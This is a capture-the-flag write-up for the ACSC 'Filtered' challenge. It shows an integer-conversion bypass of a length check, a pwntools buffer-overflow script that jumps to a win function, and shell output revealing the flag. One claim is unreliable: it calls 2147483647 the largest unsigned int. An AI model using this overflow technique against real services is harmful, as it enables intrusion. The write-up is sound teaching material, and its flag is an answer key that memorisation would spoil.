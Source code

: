 ```yaml
---
description: Buffer overflow with a flawed length check
---
```


# Filtered

## Description

Filter invalid sizes to make it secure!  
  
Backup: `nc 167.99.78.201 9001`

`nc filtered.chal.acsc.asia 9001`

{% file src="../../.gitbook/assets/filtered.tar.gz\_9a6cb1b3eafce70ff549ba6b942f34a9.gz" caption="Challenge Files" %}

## Solution

First, the user is asked for the data length. If the length is more than 0x100, the program exits.

```c
int length;
char buf[0x100];

/* Read and check length */
length = readint("Size: ");
if (length > 0x100) {
  print("Buffer overflow detected!\n");
  exit(1);
}

/* Read data */
readline("Data: ", buf, length);
print("Bye!\n");
```

The length is read using `atoi()`:

```c
/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}
```

I came across [this thread](https://stackoverflow.com/questions/41869515/overflow-when-change-from-string-to-int-in-c/41869611). Using `2147483648`, an integer overflow is caused since the largest unsigned int is `2147483647`. Therefore, `length` will be a negative signed integer, passing the length check.

However, when calling `readline()`, the length is passed to a `size_t` argument.

```c
/* Print `msg` and read `size` bytes into `buf` */
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}
```

Now, `size_t` is _unsigned_, so the permitted size would instead become a large positive integer. We can try this experiment ourselves:

```c
int main() {
    int length = atoi("2147483648");
    printf("%d\n", length);

    size_t size = length;
    printf("%zu\n", length);
}
```

The output would be:

```text
-2147483648
2147483648
```

From here, this is a regular buffer overflow challenge. The offset is 280, and we want to jump to the win function here:

```text
0x004011d6    1 65           sym.win
```

Solver script:

```python
from pwn import *

conn = remote("167.99.78.201", 9001)

print(conn.recvuntil(b"Size:"))

conn.send(b"2147483648\r\n")

print(conn.recvuntil(b"Data:"))

conn.send(b"A" * 280 + p64(0x004011d6) + b"\r\n")

conn.interactive()
```

Get the flag:

```text
└─# python3 filtered.py
[+] Opening connection to 167.99.78.201 on port 9001: Done
b'Size:'
b' Data:'
[*] Switching to interactive mode
 Bye!
$ whoami
pwn
$ ls -la
total 36
drwxr-xr-x 1 root pwn   4096 Sep 18 02:21 .
drwxr-xr-x 1 root root  4096 Sep 18 02:21 ..
-r-xr-x--- 1 root pwn     40 Sep 18 02:20 .redir.sh
-r-xr-x--- 1 root pwn  17008 Sep 18 02:20 filtered
-r--r----- 1 root pwn     59 Sep 18 02:20 flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```


